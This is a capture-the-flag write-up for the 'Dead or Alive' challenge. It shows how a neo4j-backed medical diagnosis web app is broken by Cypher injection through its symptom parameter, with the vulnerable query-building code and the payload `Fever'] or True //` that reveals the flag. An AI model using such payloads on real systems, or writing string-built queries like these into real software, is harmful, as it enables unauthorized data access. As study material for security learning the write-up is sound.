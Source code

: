 # Dead or Alive
> We have developed an innovative disease detection system using graph theory. Come and test our system, all your personal data is securely protected

## About the Challenge
We were given a source code (You can download the source code [here](source.zip)) and a website, here is the preview of the website


[Image extracted text: HealthGraph
Home
About Us
M
Contact +7 499 110 25 34
AI Powered Diseases Diagnosis
Urology
Neurology
Orthopedic
Cardiologist
Dentist
Urology]


In this website, there is a form where we can input the SSN (Social Security Number), full name, birth date, weight, and the symptoms.


[Image extracted text: Try it out
Here You can access Al powered diseases diagnosis system: You can choose several
symptoms by which your diagnoses will be determined:
test
12/12/12
10
Find your symptoms
Sore throat
Add
Current symptoms
Fever
Cough 0
By clicking the submit button; you agree that we will store your data in order to further research in the field of medicine
and improve our service: Data will be anonymized:
Submit]


The website will generate the possible diseases we may suffer from based on the symptoms


[Image extracted text: Status: Diagnosis found
Influenza 0
Pneumonia
Death 0]


## How to Solve?
Let's check the source code first, there is a file called `app.js`

```js
import express from 'express';
import nunjucks from 'nunjucks';
import neo4j from 'neo4j-driver';
import md5 from 'md5'
import moment from 'moment'
```

It looks like this website using `node` as a backend, `nunjucks` as a templating engine, and `neo4j` as a database. There are 3 endpoints that we can use:

* /api/setUser
* /api/setSymptoms
* /api/getDiagnosis

When the user called `/api/setUser` endpoint, the code will call `setUser` function. Here is the content of `setUser` function

```js
async function setUser(ssn, name, yearOfBirth, weight){
    const session = driver.session();
    const q = `
        MERGE (p:Patient {
                    ssn: '${ssn}'
                })
        ON CREATE SET p.since = date()
        SET p.name = '${name}'
        SET p.yearOfBirth = ${yearOfBirth}
        SET p.weight = ${weight}
    `
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/setSymptoms` endpoint, the code will call `setSymptoms` function. Here is the content of `setSymptoms` function

```js
async function setSymptoms(ssn, symptoms){
    const session = driver.session();
    let q = `
        MATCH (p:Patient {ssn: '${ssn}'})
        MATCH (s:Symptom) WHERE s.name in [${symptoms}]
        MERGE (p)-[r:HAS]->(s)
    `;
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/getDiagnosis` endpoint, the code will call `getDiagnosis` function. Here is the content of `getDiagnosis` function

```js
async function getDiagnosis(ssn){
    const session = driver.session();
    const q = `
        // get patient symptoms as array
        MATCH (p:Patient {ssn: '${ssn}'})-[:HAS]->(s:Symptom)-[:OF]->(d:Disease)
        WITH d, collect(s.name) AS p_symptoms
        
        // looking for a match of the patient's symptoms in the symptoms of diseases
        MATCH (d)<-[:OF]-(d_symptom:Symptom)
        WITH d, p_symptoms, collect(d_symptom.name) as d_symptoms
        WHERE size(p_symptoms) = size(d_symptoms)
        RETURN d.name, d.description
    `;
    const result = await session.run(q).catch(() => {});
    session.close();
    return result?.records.map((record) => ({
            name: record.get('d.name'),
            description: record.get('d.description')
    }));
}
```

It looks like there is no filter in the user input. So, these 3 endpoints is vulnerable to Cypher Injection. But if we check the routes again, There is a filter that limits our input:

* /api/setUser
  * SSN: There is a limit of characters (9 characters)
  * Full name: The program hashed our input
  * Year of Birth: Date format (DD-MM-YYYY)
  * Weight: Only accept float as a user input
* /api/setSymptoms
  * SSN: There is a limit of characters (9 characters)
  * Symptom: No filter
* /api/getDiagnosis
  * SSN: There is a limit of characters (9 characters)

So we can only exploit the website in the `symptom` parameter. For this chall, the flag was located in the disease table. To obtain the flag, we need to input `Fever'] or True //` in the `symptom` parameter. The neo4j query will run like this

```
MATCH (p:Patient {ssn: '000000001'})
MATCH (s:Symptom) WHERE s.name in ['Fever'] or True //']
MERGE (p)-[r:HAS]->(s)
```


[Image extracted text: POST
[apilsecSyptons
HTTP/2
Host
dead-or-alive
ctfz-
one
User-Agent
Hozilla/5
(Vindous
IT
0; Vin64 ;
{64;
rv:109
Accept
applicat
on/ Json
Aecept-Language
en-US
en;
1ccept
Encoding:
gzip ,
deflace
Referer
https:
dead-or-alive
ccfz
one/
Content
Type
application/ Json
Content-
Lengch:
Origin
https: / / dead-or-alive_
ct fz.
one
Sec-
etch-Dest:
empty
Sec-
etch
Hode
cors
Sec--
etch-Sice
sa e
origin
Te:
crailers
ssn
123123"
symptons
Fever
True
1 / "
4-0]


And then hit `/api/getDiagnosis` to obtain the flag


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[apil
getDiagnosis HTTP/=
HTTP / 2
200
OK
Host
dead-or -
1ve
ctfz_
Dle
Date-
Su
Lug 2023
16: 47: 04
GHT
User-Agent
Hozilla/ 5
(Vindous
IT
10
Vin64;
{64;
17:109
Geclo/:O100101
Content_
Type
applicat
on/ json;
charsetsut f-8
Firefor/115
Content
Lengch:
1558
Aecept
applicat
on/json
Vary:
Aecept
Enc
ding
5 Accept-Language
en-US
en ; 4-0 - 5
Etag:
616-P
fvsBtorofBlSGslIqUaldf"
Accept
Encoding:
gzip,
deflace
X-Powered-By:
Express
Referer
https
7 [ dead-or-alive
Ct f2
one/
Strict
Transport-
Security:
maz-
age-15724800;
includeSubDonains
Content-
Type
applicat
on/ json
Content-Lengch:
Origin:
https: / / dead-or-alive_
ccfz
one
scacus
"Diagnosis
fotd"
Sec--
etch-
Dest :
empty
message
Sec-
etch-Hode
cors
Sec-Fetch-Site:
sae
origin
nane
Influenza"
Te:
crailers
description
Influenza
Viral
infection
that
attacrs
Your
respiratory systen
Your
nose ,
chroac
and
lungs
ssn
"123123"
nane
Pneuonia"
description
Pneunonia
infection
hac
inflanes
che
air
sacs
1n
one
boch lungs
nane
Death
description
Tou
are
dead,
Tou
receite
posthunous flag:
ct fzone {C4n
Th3 D34D
P14Y_CTF? } "
nane
Conmon
cold"
description
The
comhon
cold
is
Viral
in fection
of Your
nose
ad
thr
(upper respiratory
cract
ghnk: =]


You can see the flag in the description of the disease

```
ctfzone{C4n_Th3_D34D_Pl4y_CTF?}
```